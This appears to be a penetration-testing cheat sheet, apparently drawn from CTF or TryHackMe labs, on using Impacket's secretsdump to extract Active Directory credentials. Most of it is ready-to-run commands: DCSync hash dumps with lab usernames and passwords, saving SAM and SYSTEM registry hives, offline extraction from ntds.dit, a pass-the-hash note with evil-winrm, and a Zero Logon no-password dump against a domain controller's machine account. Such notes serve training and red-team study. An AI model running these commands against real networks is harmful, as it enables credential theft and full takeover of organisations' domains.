







secretsdump
Secretsdump
Dumping all password hashes associated by an account
We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.
impacket-secretsdump -just-dc backup:backup2517860@10.10.11.113

Now, we can use Pass the Hash attack with evil-winrm to use the hash to login as administrator.
Note: Preferably we want an Domain Admin account to dump the credentials. Also we are not mandated to use the password in the command we can give it later as the following example: [Enter the Password when prompted]
secretsdump.py -just-dc THM.red/thm@10.10.209.28

If we want ONLY NTLM Hashes
impacket-secretsdump -just-dc-ntlm 'THM.red/thm:Passw0rd!'@10.10.209.28

Dumping all passsword hashes from SAM.hive and SYSTEM.hive Registry files
Get the SAM and SYSTEM hive files using following.
Command Prompt
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.
C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
Transfer to our local machine using any means. The run the following command to get the hashes.
Impacket-ecretsdump.py -sam sam.hive -system system.hive LOCAL
Example:

Dumping all passsword hashes from SAM and SYSTEM System files
Note: Process is same as Registry recovered files
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL

Dumping all passsword hashes from Active Directory(Locally) using SECURITY, SYSTEM & ntds.dit files
Command:
secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local

Dumping all password without any passwords (Zero Logon Exploit)
impacket-secretsdump -just-dc -no-pass DC01\$@10.10.239.0

Note: As Zero Logon Exploit targets machine accounts. The user for the above command is a machine name. DC01$
And \ is used to escape the $